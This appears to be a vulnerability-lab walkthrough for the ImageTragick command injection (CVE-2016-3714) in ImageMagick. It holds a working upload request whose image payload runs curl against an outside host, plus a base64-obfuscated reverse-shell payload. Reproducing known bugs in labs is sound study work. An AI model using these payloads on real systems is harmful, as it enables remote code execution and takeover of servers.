


ImageMagick Imagetragick Command Injection (CVE-2016–3714)¶
ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.
In ImageMagick version before 6.9.3-9, insufficient filtering for filename passed to delegate's command allows remote code execution during conversion of several file formats. The CVE-2016-3714 is also called "imagetragick".
References:
- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs
Environment Setup¶
Execute the following command to start a PHP server that includes ImageMagick 6.9.2-10:
docker compose up -d
Exploit¶
Visit http://your-ip:8080/ to see an upload component.
Send the following request:
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328
------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
It can be seen that www.leavesongs.com:8889 has received the http request, after the curl command was executed successfully:

POC of getting a reverse shell：
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
